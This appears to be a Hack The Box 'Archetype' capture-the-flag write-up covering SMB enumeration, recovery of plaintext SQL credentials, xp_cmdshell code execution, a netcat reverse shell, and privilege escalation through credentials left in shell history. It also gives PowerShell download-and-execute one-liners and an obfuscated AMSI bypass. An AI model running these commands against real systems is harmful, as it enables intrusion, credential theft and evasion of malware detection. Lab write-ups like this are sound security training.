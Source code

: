 # HTB - Starting points
## Archetype
Windows machine, beginner level

![track_done](track_done.PNG)


### Initial Access 
First of all, after creating instance, let's scan open ports by using nmap:
```
nmap -n  -sV <ip>
```
![Nmap results](nmap-scan.PNG)

As we can see, the machine have opened ports on 445, 139 (Windows SMB) and 1433 for SQL Server.
Let's try list and access to directories (```-L``` flag) as anonymous user (```-N``` flag).
```
smbclient -N -L \\\\<ip>\\
```
![SMB check](samba-chck.PNG)
```
smbclient -N \\\\<ip>\\backup
```
![SMB backup folder](samba-bckp.PNG)

Checking backups folder give us information about interesting file `prod.dtsConfig`. Let's download it and check what's inside - use `get` inside `smb>`.

>A DTSCONFIG file is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages.

![Dst file](dstbackp.PNG)

We obtained plaintext user and password for SQL server:

```Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;```

We can try to login to SQL server with obtained credentials.
I found useful link from [hacktricks.xyz](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#mssqlclient-py).
Used ```mssqlclient.py``` script from [Impacket repository](https://github.com/SecureAuthCorp/impacket) to gain access.

![Impacket](impacket.PNG)

```
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth     
```

![mssql](mssql.PNG)

With that, we can try to check if we have the highest ```sysadmin``` privileges. 
```
SELECT IS_SRVROLEMEMBER ('sysadmin')
```
If we have in return ```1``` response, we have the access to sysadmin.
In SQL with the highest privileges we can set up remote code execution via SQL service (```xp_cmdshell```).
We need to enable it and reconfigure.
![sql_rce](sql_rce.PNG)

As we can see our SQL service also running in archetype\sql_svc user contex, so we need to obtain access to normal user.

Let's try to drop shell into user context.

**UPDATE** - I switched to SMB share, beacuse of AMSI bypassing issue.

Open our SMB server with kali built-in Windows binaries, accessible for sql_svc user only.

![binaries](smb_binaries.PNG)

```
sudo impacket-smbserver tacola /usr/share/windows-resources/binaries/ -smb2support -username sql_svc -password M3g4c0rp123
```

Then run a listener to catch incoming connections.
```
nc -lvnp 4444
```
We will use ```nc.exe``` (Netcat).
In ```msqlclient.py``` window copy and execute nc binary from unprotected directory (create our directory, whenever you can)
```
xp_cmdshell "mkdir c:\tmp\tacola"
xp_cmdshell "copy \\10.10.15.64\tacola\nc.exe c:\tmp\tacola\"
xp_cmdshell "c:\tmp\tacola\nc.exe 10.10.15.64 4444 -e cmd.exe"
```

You should see an open connection in your nc listener tab:
![r_shell_user](r_shell_user.PNG)

Yay! We have access to cmd in user context, so we can try to find first flag.
Let's check user desktop.
![user_flag](user_flag.PNG)

### Privilege Escalation

First thing, which is worth always to check are used commands history for Powershell/CMD.
- For CMD
```
doskey /history
```
- For Powershell - in Win10
```
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

![recon](recon_commands.PNG)

We obtained admin password in plaintext!

```net.exe``` command mapped backup folder with admin credentials, so we can use ```psexec.py``` [from Impacket](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/) to obtain privileged shell.

```
psexec.py administrator@10.10.10.27
```

![root](root.PNG)

That's it. Let's find flag...

![root_flag](root_flag.PNG)

### Unused useful stuff, discovered in challenge solving time

Useful [website](https://www.revshells.com/) to create any reverse shell.

Open HTTP server
```
python3 -m http.server 80
```


Download shell from HTTP server via ```xp_cmdshell``` by using Powershell:
```
xp_cmdshell "powershell Invoke-WebRequest -Uri "http://10.10.15.147/exploit.exe" -OutFile exploit.exe;"
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.64/shell.ps1\");"
```


If you have a connection issue to your shell, modify firewall rules.
```
ufw allow from 10.10.10.27 proto tcp to any port 4444
```

[Bypassing AMSI](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/) malicious powershell detection.

```
xp_cmdshell "powershell [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)"
```